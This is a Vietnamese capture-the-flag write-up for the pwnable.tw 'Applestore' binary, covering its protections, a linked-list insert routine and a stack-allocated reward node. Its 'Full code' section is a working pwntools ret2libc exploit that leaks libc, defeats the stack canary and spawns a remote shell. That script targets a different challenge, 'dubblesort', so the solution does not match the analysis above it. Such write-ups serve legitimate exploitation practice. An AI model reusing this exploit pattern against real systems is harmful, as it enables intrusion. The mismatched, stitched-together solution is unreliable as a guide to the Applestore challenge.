

# pwnable.tw - Applestore

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
applestore_patched: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.24, BuildID[sha1]=35f3890fc458c22154fbc1d65e9108a6c8738111, not stripped

```
Đây là file 32-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8047000)
RUNPATH:  b'.'
```

Tiếp đến đưa file vào ida-32bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi


# 2. Ý tưởng

Bài này là 1 danh sách liên kết 2 chiều. Mỗi khi ta add thêm 1 sản phẩm vào thì nó sẽ thêm node ấy vào cuối danh sách bằng hàm `insert()`


Dòng thứ hai khai báo con trỏ "i" kiểu "_DWORD" và gán giá trị là địa chỉ của biến "myCart".

Trong vòng lặp "for", hàm duyệt qua các phần tử trong danh sách liên kết, bắt đầu từ địa chỉ của biến "myCart". Vòng lặp sẽ tiếp tục cho đến khi i[2] bằng 0,

tức là đến khi phần tử cuối cùng trong danh sách được tìm thấy.

Sau khi tìm thấy phần tử cuối cùng trong danh sách, con trỏ "i" trỏ đến phần tử cuối cùng đó. Dòng tiếp theo của hàm thêm phần tử mới vào cuối danh sách 

bằng cách gán giá trị của biến "a1" cho i[2].

Dòng tiếp theo của hàm cập nhật con trỏ phần tử trước đó của phần tử mới được thêm vào danh sách. Điều này đảm bảo rằng danh sách liên kết được duy trì.

Tiếp đến ta có hàm `check()`


Đầu tiên ta có thể thấy điều đặc biệt ở hàm check đó là nếu tổng giá trị của sản phẩm = 7174$

thì sẽ cho ta phần thưởng là 1 iPhone 8 - 1$

* Mình không kiếm được hàm `free()` ở đây nên không `heap_exploit` được


Mình thấy sự khác biệt giữa 2 hàm được thêm bằng `insert()` này:

Riêng `iPhone 8 - 1$` được lưu trên stack còn lại được lưu trên heap

# 3. Khai thác

Đầu tiên cứ tiến đến phần được nhận iphone-8 đã

```
for i in range(6):
		add(1)
for i in range(20):
		add(2)
checkout()
```



Có thể thấy riêng `iphone-8` có `fd` và `bk` trỏ ở stack


# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("dubblesort_patched")
libc = elf.libc

local = False 
if local:
    p = process("./dubblesort_patched")
    gdb.attach(p,'''
    b*main+111
    c
    b*main+310''')
else:
    p = remote('chall.pwnable.tw', 10101)

elf = context.binary = ELF('./dubblesort_patched', checksec=False)

payload = b"a"*28
p.sendlineafter(b"What your name :", payload)
p.recvuntil(payload)

libc_base = int.from_bytes(p.recv(4),"little") - 1769482
system = libc_base + 0x3a940
binsh = libc_base + 0x158e8b

leak = int.from_bytes(p.recv(4),"little") + 1322
main = leak + 360


print("[+]Libc_base:    ", hex(libc_base))
print("[+]System:         ", hex(system))
print("[+]Bin_sh:         ", hex(binsh))

p.sendlineafter(b"How many numbers do you what to sort :", b"35")

def send_value(value):
    p.sendlineafter(b" number :", str(value))

for i in range(24):
    send_value(str(i))

p.sendlineafter(b" number :", b"-")
for i in range(8):
    p.sendlineafter(b" number :", str(system))
p.sendlineafter(b" number :", str(system+1))
p.sendlineafter(b" number :", str(binsh))

p.interactive()
```


